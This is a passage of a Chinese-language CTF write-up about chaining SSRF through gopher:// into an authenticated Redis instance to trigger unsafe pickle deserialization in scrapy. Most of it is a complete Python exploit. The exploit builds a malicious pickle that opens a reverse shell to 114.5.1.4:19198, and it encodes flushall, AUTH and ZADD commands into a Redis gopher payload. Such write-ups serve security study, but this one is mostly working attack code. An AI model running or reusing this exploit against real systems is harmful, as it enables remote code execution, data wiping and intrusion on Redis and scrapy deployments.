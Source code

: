   （~~如果对 admin 路由的源码有槽点可以理解为开发者尚未开发完备~~）

- SSRF redis to scrapy

  用 curl 请求 redis 服务即可，SSRF 认证打 Redis 以及 scrapy 不安全的 pickle 反序列化已经有很多现成资料了

  exp，对现有的认证 payload 生成稍有改写，不敢妄称优化，只支持 python3

  ```python
  #!/usr/bin/env python3
  import pickle
  import os
  from urllib.parse import quote
  
  
  class Exp(object):
      def __reduce__(self):
          s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("114.5.1.4",19198));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
          return (os.system, (s,))
  
  
  IFS = r'IFS'
  evil = pickle.dumps(Exp())
  print(evil)
  
  
  def redis_format(arr):
      cmd = ""
      CRLF = "\r\n"
      if isinstance(arr, str):
          arr = arr.encode()
      redis_arr = arr.split(IFS.encode())
      cmd += quote(f'*{len(redis_arr)}{CRLF}')
      for param in redis_arr:
          cmd += quote(f'${len(param)}{CRLF}')
          cmd += quote(param)
          cmd += quote(CRLF)
      return cmd
  
  
  protocol = "gopher://"
  host = "redis"
  port = "6379"
  passwd = "sTrOnG_R3D1s_p@s5woRd_HeRE"
  
  cmds = ["flushall",
          f"ZADD{IFS}recruit:requests{IFS}0{IFS}".encode() + evil,
          "quit"
          ]
  if passwd:
      cmds.insert(0, f"AUTH{IFS}{passwd}")
  
  payload = protocol+host+":"+port+"/_"
  
  for cmd in cmds:
      payload += redis_format(cmd)
  
  print(payload)
  
  ```
